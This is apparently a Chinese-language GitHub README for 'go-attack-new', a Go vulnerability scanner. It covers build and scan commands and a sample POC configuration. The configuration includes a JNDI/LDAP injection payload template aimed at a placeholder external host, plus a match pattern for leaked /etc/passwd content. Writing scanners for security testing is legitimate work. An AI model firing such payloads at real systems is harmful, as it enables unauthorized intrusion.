

# go-attack-new
## 前言
go-attack-new 是对之前的 go-Attack 进行重构后的项目，旨在提供一个强大且高效的安全测试与漏洞扫描工具。可能有些地方尚未考虑周全，欢迎各位师傅提出宝贵的 issue，帮助我们不断完善这个项目。

## 简介
go-attack-new 是一款安全测试与漏洞扫描工具，具备高效的并发负载和多种漏洞检测能力。它能帮助安全研究人员、渗透测试人员等快速发现目标系统中可能存在的安全漏洞。

## 功能特性

- 🚀 高性能并发负载引擎（ConLoad 模块）
- 🔍 多维度漏洞检测（Judge 模块）
  - 字符串特征检测
  - HTTP头特征分析
  - 响应时间异常检测
- 🛠️ 参数生成器（Param 模块）
  - 随机字符串生成
  - 随机数字生成
- 📚 漏洞检测规则库（POCs 模块）
  - 包含常见漏洞检测规则（SQL注入、RCE等）
  - 支持CNVD/CVE标准漏洞检测
- 🌐 智能请求处理（request 模块）
  - URL有效性校验
  - 扫描目标管理

## 架构设计



## 快速开始

### 前置要求
- Go 1.20+
- 网络连接（用于下载依赖）

### 安装步骤
```bash
# 克隆仓库
git clone https://github.com/your-repo/go-attack-new.git
cd go-attack-new

# 安装依赖
go mod download

# 编译项目
go build -o attack-tool main.go
```

### 基本使用
```bash
# 扫描单个目标
./attack-tool -u http://example.com -poc CVE-2023-50164

# 批量扫描目标
./attack-tool -f url.txt

# 查看支持POC列表
./attack-tool -show
```

## 配置说明
编辑 `test.yaml` 配置文件：

```yaml
# 请求配置
requests:
  - reqPath: "/api/v1/test"  # 请求路径 (必填)
    timeout: 10              # 请求超时时间(秒) (默认: 5)
    httpMethod: "POST"       # HTTP方法 (GET/POST/PUT/DELETE)
    headers:                 # 自定义请求头
      Content-Type: "application/json"
    data: "{\"test\":\"${{randomString}}\"}" # 请求体，支持模板变量

# 响应匹配规则
match:
  - type: "string"           # 匹配类型 (string/time/header)
    matchStrings:            # 匹配字符串列表
      - "root:[x*]:0:0:"
    logic: "OR"              # 逻辑关系 (AND/OR)
  - type: "time"
    lesTime: 100             # 小于时间(毫秒)
    maxTime: 500             # 大于时间(毫秒)

# 漏洞信息配置
info:
  - name: "Apache Struts RCE"
    CVE: "CVE-2023-50164"
    CNVD: "CNVD-2024-15077"

# 攻击载荷配置  
attack:
  - payload: "${jndi:ldap://${{randomString}}.example.com}" # 攻击载荷模板

# 参数生成配置
param:
  - randomString: 12  # 生成随机字符串长度
  - randomNumber: 6   # 生成随机数字位数

# 响应体头部匹配配置
matchHeaders:
  - matchOnlyHeaders: "X-Forwarded-For" # 指定匹配的Header
    matchHeaderStrings: 
      - "127.0.0.1"
    logic: "AND"
```

## 贡献指南
1. 提交Issue描述问题或建议
2. Fork仓库并创建特性分支
3. 提交Pull Request时关联相关Issue
4. 遵循现有代码风格和测试规范

## 免责声明
本工具仅用于安全研究和教学目的，请勿用于非法活动。使用本工具所产生的一切法律后果由使用者自行承担。
